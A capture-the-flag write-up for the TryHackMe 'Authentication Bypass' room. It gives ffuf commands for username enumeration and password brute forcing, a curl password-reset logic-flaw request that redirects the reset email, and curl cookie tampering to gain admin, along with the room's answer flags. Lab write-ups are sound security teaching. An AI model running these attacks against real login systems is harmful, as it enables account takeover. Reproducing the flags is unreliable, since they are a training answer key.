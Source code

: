 ![Authentication Bypass Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Cover.png" alt="Authentication Bypass Logo">
</p>

# Authentication Bypass

This guide contains the answer and steps necessary to get to them for the [Authentication Bypass](https://tryhackme.com/room/authenticationbypass) room.

## Table of contents

- [Username Enumeration](#username-enumeration)
- [Brute Force](#brute-force)
- [Logic Flaw](#logic-flaw)
- [Cookie Tampering](#cookie-tampering)

### Username Enumeration

1. What is the username starting with si*** ?

   We have a form which seems to leak more information than we should.
   
   ![Exists](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Enumeration_Exists.png)
   
   To abuse the fact that a result is returned when the username already exists we can use ffuf with the following commands and names takes from the source page:
   
   ![Source](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Enumeration_Source.png)
   
   ```cmd
   ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.47.167/customers/signup -mr "username already exists"
   ```

   ![Users](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Enumeration_Users.png)

   ><details><summary>Click for answer</summary>Simon</details>

2. What is the username starting with st*** ?

   This was found with the above command.

   ><details><summary>Click for answer</summary>Steve</details>

3. What is the username starting with ro**** ?

   This was found with the above command.

   ><details><summary>Click for answer</summary>Robert</details>

### Brute Force

1. What is the valid username and password (format: username/password)?

   After putting the usernames in a text files we can combine it with a password wordlist in ffuf.
   
   ```cmd
   ffuf -w usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.47.167/customers/login -fc 200  
   ```

   ![Password](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Brute_Force_Password.png)

   ><details><summary>Click for answer</summary>steve/thunder</details>

### Logic Flaw

1. What is the flag from Robert's support ticket?

   The following form allows us to reset someones password and send the email to us.
   
   ![Form](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Logic_Form.png)
   
   ```cmd
   curl "http://10.10.47.167/customers/reset?email=robert@acmeitsupport.thm" -H "Content-Type: application/x-www-form-urlencoded" -d "username=robert&email=1337h4ck3r@customer.acmeitsupport.thm"
   ```

   Here we receive the ticket to log into the account.
   
   ![Ticket](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Logic_Ticket.png)
   
   And now we can access the flag on Roberts account.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Logic_Flag.png)
   
   ><details><summary>Click for answer</summary>THM{AUTH_BYPASS_COMPLETE}</details>

### Cookie Tampering 

1. What is the flag from changing the plain text cookie values?

   We can use the following command to check if we are logged in:

   ```cmd
   curl http://10.10.47.167/cookie-test -H "Cookie: logged_in=true	"
   ```
   
   The next command should also give us admin privileges:
   
   ```cmd
   curl http://10.10.47.167/cookie-test -H "Cookie: logged_in=true; admin=true"
   ```
   
   ![Admin](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Cookie_Admin.png)
   
   ><details><summary>Click for answer</summary>THM{COOKIE_TAMPERING}</details>

2. What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?

   Using crackstation, we can get the string belonging to this hash.
   
   ![MD5](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Cookie_MD5.jpeg)

   ><details><summary>Click for answer</summary>463729</details>

3. What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?

   To decode a Base64 strings we can use CyberChef.
   
   ![Base 64](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/authenticationbypass/Authentication_Bypass_Cookie_Base_64.png)

   ><details><summary>Click for answer</summary>THM{BASE64_ENCODING}</details>

4. Encode the following value using base64 {"id":1,"admin":true}

   Encoding to Base64 can also be done with CyberChef.

   ><details><summary>Click for answer</summary>eyJpZCI6MSwiYWRtaW4iOnRydWV9</details>

